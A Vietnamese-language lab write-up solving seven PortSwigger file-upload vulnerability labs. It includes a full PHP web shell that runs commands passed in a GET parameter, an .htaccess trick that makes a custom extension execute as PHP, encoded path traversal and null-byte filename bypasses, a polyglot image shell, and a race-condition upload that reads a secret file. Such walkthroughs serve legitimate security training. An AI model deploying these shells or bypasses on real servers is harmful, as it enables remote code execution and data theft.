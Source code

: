 # File upload vulnerabilities - Portswigger
## 1. Remote code execution via web shell upload
Bài này khá đơn giản mình chỉ cần upload một file .php chứa webshell lên thay vì ảnh bình thường là được
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
![image](https://github.com/b4shu206/PortSwigger/blob/main/FILE%20UPLOAD%20VULNERABILITY/image/upload_9767f6ee6f146e7dbb1b1fc725bd1efd.png?raw=true)
Ta dùng lệnh để đọc nội dung trong file secret và có được secret là `TswuW44vMztdKYo8mmAF4TkkJgZjPP8H`
![image](https://github.com/b4shu206/PortSwigger/blob/main/FILE%20UPLOAD%20VULNERABILITY/image/upload_d3e6ff0bebadb6a39d64d978767febf3.png)
Nạp secret và solved được lab.
## 2. Web shell upload via Content-Type restriction bypass
Lần này ta chỉ việc thay đổi content-type thành `image/png` là đã upload thành công webshell
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_21afc9803724dea78bd4f0ca2576a2e4.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088370&Signature=SoIWNqzsBEi79jQY2ODSm4UzyWE%3D)
Dùng lệnh đọc và lấy được secret `KnLwUfLjerQDbWM72RyBeFGqdI6zSjkh`
![image](https://hackmd.io/_uploads/SkAmTYwdJg.png)
Submit và đã solved được lab.
![image](https://hackmd.io/_uploads/SJ8U6KvO1x.png)
## 3. Web shell upload via path traversal
Ta đọc đề thì thấy ta cần kết hợp với lỗi path traversal. Mình có thử upload lên nhưng webshell không hoạt động
![image](https://hackmd.io/_uploads/H17bAKPdyl.png)
Vậy ta cần đổi tên file để có thể upload ra ngoài thư mục avatars và webshell ta nó sẽ hoạt động.
Ta search payload ở [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/README.md)
![image](https://hackmd.io/_uploads/S1BYAKvdJx.png)
Có vẻ nhưng `../` , `..\` , `../\` đều đã bị chặn. Nên mình đã dùng `%2e%2e%2f` thì đã upload được thành công ra ngoài.
![image](https://hackmd.io/_uploads/SkwCAYPOJe.png)
Truy cập bằng `files/test.php` và đọc file thì được secret `ivFsLt8JIcyD0Y8EriCp5xEg3Mre4OOW`
![image](https://hackmd.io/_uploads/H1o-J5Pd1x.png)
Submit và đã solved được lab.
![image](https://hackmd.io/_uploads/ByN7J5DOyl.png)
## 4. Web shell upload via extension blacklist bypass
Lần này đã bị block hết đuôi `.php`
![image](https://hackmd.io/_uploads/BJw4z5wO1l.png)
Và không upload được, mình có thử các đuôi khác như php3,php5,php7,... thì file không hoạt động.
Đọc hint thì thấy cần up 2 file khác nhau
![image](https://hackmd.io/_uploads/SJ5LGqDd1g.png)
Đọc document thì phát hiện ra ta có thể upload file .htaccess và ghi đè lên nó
![image](https://hackmd.io/_uploads/Sye2z9vuJe.png)
Ta có thể cho 1 đuôi bất kỳ nhưng vẫn hoạt động như file .php bằng nội dung sau thì file .test sẽ hoạt động như .php
```
<FilesMatch "\.test$">
    SetHandler application/x-httpd-php
</FilesMatch>
```
![image](https://hackmd.io/_uploads/SyCrXqDdyg.png)
Giờ ta chỉ việc sửa đuôi file và tên file là `test.test` và upload thôi
![image](https://hackmd.io/_uploads/B1l_m9wdke.png)
Vậy là ta đã upload thành công giờ chỉ việc đọc file và lấy được secret là `VQMWq5rpLrkIqlUiBzngnRvFd9skJLJX`
![image](https://hackmd.io/_uploads/ryr37cw_ke.png)
Nạp và ta đã solved được lab.
![image](https://hackmd.io/_uploads/Hy26m5vdyx.png)
## 5. Web shell upload via obfuscated file extension
Ta tiếp tục đọc document
![image](https://hackmd.io/_uploads/B15KNcD_kl.png)
Thì bày này chỉ chấp nhận việc ta upload file `.jpg` hoặc là `.png`
![image](https://hackmd.io/_uploads/B1eSBcPOyg.png)
Và nó chỉ cần có đuôi `.jpg` hoặc `.png` ở cuối là được ta có thể bypass bằng cách thêm byte null trước đuôi `.png` thì vẫn bypass qua được nhưng đuôi `.png` sẽ biến mất
![image](https://hackmd.io/_uploads/ry1hr9Dukx.png)
Vậy là ta đã upload thành công. Giờ chỉ việc đọc file và có được secret là `rHv3lt6txH4VT1iYVdvztrkbOh7qgGQa`
![image](https://hackmd.io/_uploads/SypE8cDOJl.png)
Và solved được lab
![image](https://hackmd.io/_uploads/SkbILcvdyl.png)
## 6. Remote code execution via polyglot web shell upload
Vì bài này chỉ check content trong có chính xác là bức ảnh hay không nên ta thử đổi tên file là `.php` thì vẫn upload bình thường
![image](https://hackmd.io/_uploads/rkpA_cD_ye.png)
Giờ ta chỉ việc chèn webshell ở dưới nội dung ảnh và up lên là được
![image](https://hackmd.io/_uploads/ryRWY5vdJe.png)
Và ta đã upload thành công webshell lên và lấy được secret là `tVhTcZSPJdxe2ObMmUN7bY2oletBZsnU`
![image](https://hackmd.io/_uploads/ByxEF9wO1g.png)
Submit và đã solved được lab
![image](https://hackmd.io/_uploads/r1irK5v_1e.png)
## 7. Web shell upload via race condition
Mình thử upload 1 loạt file lên thì đều không thành công
![image](https://hackmd.io/_uploads/Bk1cdsDOJe.png)
Nên đọc thử document
![image](https://hackmd.io/_uploads/B1wROjPdye.png)
Và đọc hint thì ta có sourcecode
```php
<?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}

function checkViruses($fileName) {
    // checking for viruses
    ...
}

function checkFileType($fileName) {
    $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
    if($imageFileType != "jpg" && $imageFileType != "png") {
        echo "Sorry, only JPG & PNG files are allowed\n";
        return false;
    } else {
        return true;
    }
}
?>
```
Thì có vẻ giống như document nó vẫn tải lên và lưu trữ  sau đó mới chuyển rồi kiểm tra và khi không vượt qua kiểm tra thì mới xóa.
Trong thời gian di chuyển thì mình có thể chèn thêm 1 request `GET` để chạy file mình vừa upload lên
Nội dung file là:
```php
<?php
echo "<pre>" . htmlspecialchars(file_get_contents('/home/carlos/secret')) . "</pre>";
?>
```
Và ta gộp thành group và sử dụng chức năng `Send group (parallel)` để có thể gửi 2 request này cùng lúc.
![image](https://hackmd.io/_uploads/rJpoFivuyl.png)
Cách này còn tùy thuộc vào mạng nhà bạn và độ nhân phẩm =))
Sau rất nhiều lần gửi đi gửi lại thì mình đã đọc và có được secret.
![image](https://hackmd.io/_uploads/H1wLujP_kx.png)
Đem đi nạp và solved được lab.
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_6828c3e7aadcd41cea2dd228285b7458.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1750088353&Signature=VQE6PtNQ5ivYTamV8owQKVDOlrc%3D)
